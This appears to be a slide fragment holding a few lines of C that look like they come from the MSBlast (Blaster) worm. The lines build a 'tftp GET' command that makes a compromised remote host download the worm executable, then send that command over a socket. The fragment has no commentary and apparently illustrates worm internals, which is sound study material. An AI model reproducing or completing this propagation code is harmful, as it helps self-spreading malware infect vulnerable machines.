

sprintf(cmdstr, "tftp -i %s GET %s\n", target_ip_string, MSBLAST_EXE);

if (send(fd, cmdstr, strlen(cmdstr), 0) <= 0)    goto closesocket_and_return;